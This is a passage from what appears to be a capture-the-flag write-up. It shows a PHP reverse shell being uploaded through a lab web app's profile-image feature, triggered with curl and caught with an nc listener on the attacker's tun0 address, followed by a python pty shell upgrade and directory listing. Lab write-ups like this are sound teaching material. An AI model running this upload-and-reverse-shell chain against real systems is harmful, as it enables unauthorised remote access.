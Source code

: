 Next:

- Head over to `/v2/profile.php`, you'll discover the upload feature works. This means we can try upload a php reverse shell.

![image](https://user-images.githubusercontent.com/58165365/145276042-57c42588-b270-4b1e-ab80-3add3eb71031.png)

- Modify the reverse shell by setting your `tun0` address and a port of your liking.

```bash
➜  road cp /usr/share/webshells/php/php-reverse-shell.php .
➜  road nano php-reverse-shell.php
➜  road mv php-reverse-shell.php shell.php
➜  road ls -la
total 16
drwxr-xr-x   2 root root 4096 Dec  8 14:59 .
drwxr-xr-x 120 kali kali 4096 Dec  8 13:32 ..
-rwxr-xr-x   1 root root 5494 Dec  8 14:59 shell.php
```

- Start a nc listener

```bash
 ➜  road nc -lnvp 9999
listening on [any] 9999 ...
```

- Curl the shell (_Looking at the page source, we get an idea of where the uploaded files are located_)

![image](https://user-images.githubusercontent.com/58165365/145369662-e3393bee-3109-498e-8595-907ac0b10130.png)

```bash
 ➜  curl http://10.10.49.198//v2/profileimages/shell.php
```

And now we have a shell. Lets start enumerating around.

```bash
➜  nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.8.162.140] from (UNKNOWN) [10.10.49.198] 57992
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:11:13 up  1:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@sky:/$ ls -la
total 2047056
drwxr-xr-x  20 root root       4096 May 25  2021 .
drwxr-xr-x  20 root root       4096 May 25  2021 ..
lrwxrwxrwx   1 root root          7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   3 root root       4096 May 25  2021 boot
drwxr-xr-x   2 root root       4096 May 25  2021 cdrom
drwxr-xr-x  17 root root       3840 Dec  8 18:30 dev
drwxr-xr-x 100 root root       4096 Oct 17 12:20 etc
drwxr-xr-x   3 root root       4096 May 25  2021 home
lrwxrwxrwx   1 root root          7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root      16384 May 25  2021 lost+found
drwxr-xr-x   2 root root       4096 Feb  1  2021 media
```